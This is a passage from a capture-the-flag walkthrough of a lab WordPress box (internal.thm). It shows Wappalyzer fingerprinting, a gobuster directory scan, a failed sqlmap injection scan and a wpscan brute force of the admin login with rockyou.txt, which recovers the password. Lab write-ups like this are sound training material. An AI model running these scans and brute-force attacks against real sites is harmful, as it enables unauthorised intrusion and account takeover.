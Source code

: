 <br>

**Wappalyzer** shows us that

- It's a Wordpress 5.4.2 site
- It's running on Apache 2.4.29
- There is a MySQL database
- The underlying OS is Ubuntu

<br>

I run another **gobuster** scan on the blog directory since it's looking like that's where the content will actually be:

`gobuster dir -u http://internal.thm/blog -t 50 -r -x php,txt,html -w dir-med.txt`

```
/wp-content           (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 53892]
/wp-login.php         (Status: 200) [Size: 4530] 
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 403) [Size: 277]  
/readme.html          (Status: 200) [Size: 7278] 
/wp-trackback.php     (Status: 200) [Size: 135]  
/wp-admin             (Status: 200) [Size: 4530] 
/xmlrpc.php           (Status: 405) [Size: 42]   
/wp-signup.php        (Status: 200) [Size: 4672]
```

We'll go through those in a minute but for now I want to run a quick **sqlmap** scan since there are fields we can input text into. I navigate to one of the blog posts that allows the user to add comments to the post and scan it:

`sqlmap --url http://internal.thm/blog/index.php/2020/08/03/hello-world/ --dbs --forms --crawl=2`

```
[10:32:36] [ERROR] all tested parameters do not appear to be injectable.
```

No luck there. Looking around the website all of the blog posts are by the **admin** user so I decided to try and brute force it with **wpscan**.

`wpscan --url http://internal.thm/blog --usernames admin --passwords rockyou.txt --max-threads 50`

After not long at all we have success:

```
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

<br>
